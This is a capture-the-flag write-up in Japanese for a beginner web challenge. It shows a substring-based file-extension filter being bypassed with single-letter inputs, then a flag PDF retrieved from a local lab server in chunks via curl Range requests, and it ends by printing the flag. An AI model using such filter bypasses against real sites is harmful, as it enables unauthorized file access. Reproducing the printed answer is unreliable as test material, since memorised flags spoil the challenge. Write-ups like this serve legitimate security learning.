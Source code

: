 ## 解法
アクセスすると、選択した拡張子のファイルが表示されることがわかる。

`.` や `%2e` を入れるが通らない。
ソースコードを見ると、filter 時にチェックされているのは suffix ではなく その文字列を含むかのみなので 、a~zまでの文字を1文字ずつ入れてあげると flag が露出する。

例えば、 `http://{target_url}/?file_extension=a`

しかし、`/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf` にアクセスするとファイルサイズが大きすぎて上書きされていることがわかる。

サイズ制限があるので、HTTP Range Requestを渡す。

```
curl -X GET -H 'Range: bytes=0-10239' http://localhost/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf --output - > 0.pdf
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 10240    0 10240    0     0  1111k      0 --:--:-- --:--:-- --:--:-- 1111k
```

10240 bytes しっかり全部取れているので、次のchunkをみる。

```
curl -X GET -H 'Range: bytes=10240-20479' http://localhost/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf --output - > 1.pdf
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5845    0  5845    0     0   815k      0 --:--:-- --:--:-- --:--:--  815k
```

5845 bytes なので、これで全てっぽい。


catでくっつける。

```
cat 0.pdf 1.pdf > ans.pdf
```

ans.pdfを見る

## ctf4b{r4nge_reque5t_1s_u5efu1!}
